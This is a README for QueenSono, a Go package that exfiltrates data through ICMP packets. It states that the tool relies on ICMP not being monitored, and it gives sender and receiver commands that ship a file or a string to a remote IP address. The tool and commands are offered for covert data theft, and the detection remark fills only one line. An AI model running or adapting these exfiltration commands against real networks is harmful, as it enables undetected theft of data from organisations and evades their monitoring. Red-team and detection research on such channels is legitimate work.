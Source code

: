 # QueenSono
A Golang Package for Data Exfiltration with ICMP protocol. Try to imitate https://github.com/ytisf/PyExfil (and others) with the idea that the target machine does not necessary have python installed (so provide a binary could be usefupl)

***Notes:***
- only work on Linux 
- need cap_net_raw capabilities
- Only rely on the fact that ICMP protocol isn't monitored (could be detected with a rigorous inspection of ICMP packet content or frequency)

## ICMP
https://github.com/cyb3rw01f/icmpExfiltrater (avec command on serverside)
https://github.com/martinoj2009/ICMPExfil

## options
$ wget https://raw.githubusercontent.com/mxw/grmr/master/src/finaltests/bible.txt && ./qssender send file -d 2 -l 127.0.0.1 -r 10.0.2.15 bible.txt -s 50000
$ ./qsreceiver receive -l 10.0.2.15 -p -f received_bible.txt


$./qssender send "thisisatest i want to send a string w/o waiting for the echo reply " -d 1 -l 127.0.0.1 -r 10.0.2.15 go.mod -s 1 -N
$./qsreceiver receive truncated 1 -l 10.0.2.15

<p hidden>add encryption + integrity check</p>
